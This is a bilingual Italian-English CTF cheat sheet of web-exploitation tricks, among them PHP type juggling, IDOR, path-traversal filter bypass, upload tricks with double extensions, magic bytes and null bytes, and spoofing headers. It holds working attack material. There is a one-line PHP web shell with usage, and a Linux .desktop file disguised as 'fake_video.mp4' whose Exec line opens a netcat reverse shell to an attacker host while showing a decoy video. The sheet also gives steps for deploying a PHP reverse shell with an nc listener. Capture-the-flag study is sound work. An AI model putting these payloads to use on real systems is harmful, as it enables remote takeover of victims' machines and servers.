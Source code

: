 ## WEB
- `curl sito | grep flag` provarlo sempre, potrebbe funzionare...
- Se non trovi la risposta e hai delle richieste HTTP prova a **cambiare** il *metodo*
- Se il **check** è via **js** scarica tutta la pagina e la modifichi in locale come vuoi ( *se non riesci a modificarla live sul broser* )
- **Se non trovi la risposta fai generare errori a php**, tipicamente inviando array vuoti: `input=[]` o trasformando in array vuoti: `input[]=`
- Controlla se il confronto è fatto con `==` o `===` in tal caso prova a traformare in un altro tipo ad esempio un array...
- **`.DS_Store`**: is a common file in some websites, I think only in Apache servers, it is connected with MAC and Storage
- python [`requests`](https://requests.readthedocs.io/en/latest/user/quickstart/) module
  - `page = requests.get('url', params={'getParam': 'val'})`
  - `page = requests.get(url, headers={'user-agent': 'my-app/0.0.1'})`
  - `page = requests.post('http://web-08.challs.olicyber.it/login', data={"username": "admin","password": "admin"})`
  - ```python
    data = {
    "username": "panino12345678",
    "password": "panino12345678",
    "invite": code
    }

    page = requests.post(url, json=data)
    ```
- [`beautifulSoup`](https://www.crummy.com/software/BeautifulSoup/bs4/doc/)

  **Gli attributi degli elementi si accedono tramite array associativi: `soup.img['src']`**

  ```python
  import requests as req
  from bs4 import BeautifulSoup
   
  page = req.get('http://captcha.challs.olicyber.it/')
   
  soup = BeautifulSoup(page.text, 'html.parser')
  ```
- **Change directory**: if there is a filter for `../` try `.../` or something similar
- **Insecure direct object reference (IDOR) vulnerability** arises when attackers can access or modify objects by manipulating identifiers used in a web application's URLs or parameters. It occurs due to missing access control checks, which fail to verify whether a user should be allowed to access specific data. (`http://notes.challs.olicyber.it/account/account_number_that_you_want`)

- **`.htaccess`**: is a common file in a lots of websites, I think only in Apache servers
- **File upload possibile**:

  Try to upload the file (with the extensions) that you want:
  - `yoyo.png.php`
  - **Magic Bytes**: search the [specific magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for the file requests, convert and **save** them in a file with [CyberChef](https://cyberchef.org/) (*from hex*). *Remember to save them in a file creating and saving a new file with cyberchef option*
  - **[Null Byte Injection](https://youtu.be/jBtzFGwHvxE)**: a technique for sending data that would be filtered otherwise. It relies on injecting the null byte characters (`%00`, `\x00`) in the supplied data. Its role is to terminate a string*

  Una volta caricato il file che vuoi puoi provare una [*reverse-shell*](#reverse-shell) or a simple *single command executer* (a small php cmd payload): ```<?=`$_GET[0]`?>```, in order to use it: `www.pippo.it/yo.php?0=command` for example: *http://atlas.picoctf.net:57784/uploads/yoyo.png.php?0=cat ../MFRDAZLDMUYDG.txt*. You can use spaces, dot...
  
  ###### Example 1
  1. An attacker wants to retrieve the file `/etc/passwd` but an extension `.php` is appended automatically such as `/etc/passwd.php`.
  2. The attacker uses the null byte to terminate the string and throw away the `.php` extension: `/etc/passwd%00`
   
  ###### Example 2
   1. An attacker wants to upload a `malicious.php`, but the only extension allowed is `.pdf`.
   2. The attacker constructs the file name such as `malicious.php%00.pdf` and uploads the file.
   3. The application reads the `.pdf` extension, validate the upload, and later throws the end of the string due to the null byte.
   4. The file `malicious.php` is then put in the server.

  ###### [Example 3](https://brandon-t-elliott.github.io/trickster)

- **Redirect Links**
Add `+` at the end of the URL to see the site where the redirect links will bring you: `https://tinyurl.com/bw7t8p4u+`

- **`robots.txt`**
Sometimes the websites contain a robots.txt file, it can be usefull for example for the SEO, in particular we could don't want to indexing our web sites.

- Sessioni
Il cookie sessione è in base 64, decodificarlo e vedere come è scritto, non sempre è possibile copiarlo ed essere loggati, però in alcuni casi si. Per defifrarlo basta usare [CyberChef](https://cyberchef.org/)

- Prova sempre a loggarti come **admin**

- Cambiare `IP` di provenienza: è un *header*, tipicamente `X-Forwarded-For` o `Forwarded`

### Comandi e strumenti
- Gobuster
- [nikto](#nikto)
- [rustscan](#rustscan)
- [smbclient](#smbclient)
- [wapiti](https://wapiti-scanner.github.io/) *a web scanner*

Modificare ed effettuare richieste particolari:
- postman
- Requests *python library* (file `web.py`)
- burp suite

### Reverse shell with an mp4 file (only in linux mint?)
> whatch [this](https://youtu.be/ZlfloTpLGT0?list=PL0fOAKA0mBdspB0x8BhMegc0ZoEwQpq32) video or read [this](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078/) article

1. Create a file named `name.desktop`
2. write in there these lines:
   ```
        [Desktop Entry]
        Encoding=UTF-8
        Name=fake_video.mp4
        Exec=/usr/bin/wget 'http://192.168.1.XX/real_video.mp4' -O /tmp/real_video.mp4; /usr/bin/xdg-open /tmp/real_video.mp4; /usr/bin/mkfifo /tmp/f; /bin/nc 192.168.1.XX 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1 &
        Terminal=false
        Type=Application
        Icon=video-x-generic
   ```
3. change the first ip addr with **your local server** ip addr
4. change the second ip addr with **your local server** ip addr

### Reverse shell php
1. Download the file [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

2. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to [ilmioip](https://www.mio-ip.it/) in the browser of your device). 

3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`

4. Search the page to load and execute your payload

> As you can see you will open a local server on your computer on port 1234, from here, using ncat you will interact with the target host shell

> Per mettere online il server locale ci si può appoggiare ad ngrok
